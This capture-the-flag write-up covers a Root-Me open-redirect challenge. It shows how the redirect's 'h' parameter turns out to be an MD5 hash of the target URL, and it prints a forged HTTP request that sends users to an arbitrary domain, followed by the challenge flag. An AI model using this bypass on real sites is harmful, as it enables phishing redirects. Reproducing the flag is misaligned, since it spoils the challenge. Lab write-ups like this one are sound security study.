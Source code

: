 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 3
---
```


> Find a way to make a redirection to a domain other than those showed on the web page.

![1](https://github.com/Knign/Write-ups/assets/110326359/ee04fb63-1a0b-46ac-a2b7-cdb6e2a69256)

We can click on any of the options and intercept the request using Burpsuite.

![2](https://github.com/Knign/Write-ups/assets/110326359/45b55aeb-161a-43da-8d32-99d0baa03cd2)

```
GET /web-serveur/ch52/?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134 HTTP/1.1
```
The request would typically be processed by a web server, which would attempt to access the specified URL (in this case, `https://facebook.com`) and respond accordingly.

The `h` parameter may be some form of hash used for the purpose of authentication.

Let's decode the hash using an online decoder.

![3](https://github.com/Knign/Write-ups/assets/110326359/2952d985-90bb-4b05-82d8-d6460838e430)

So the MD5 hashing function was used to encode `https://facebook.com` and the hash was then included in the `h` parameter.

Let's say we want to redirect to `https://openredirect.com`, we would have to set the `h` parameter to the hash of the `url` parameter.

![4](https://github.com/Knign/Write-ups/assets/110326359/fd1bf08c-ce6b-4bd6-ae4f-1a555e190ef2)

## HTTP Request
```
GET /web-serveur/ch52/?url=https://openredirect.com&h=467e5d669ea35a18601efe9bb20f52ad HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch52/
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697302688.4.1.1697302689.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
For the final step, we have to send this request to the server.

![5](https://github.com/Knign/Write-ups/assets/110326359/49a20eec-87a0-4456-b0ce-b78328931dcf)

## Flag
```
e6f8a530811d5a479812d7b82fc1a5c5
```
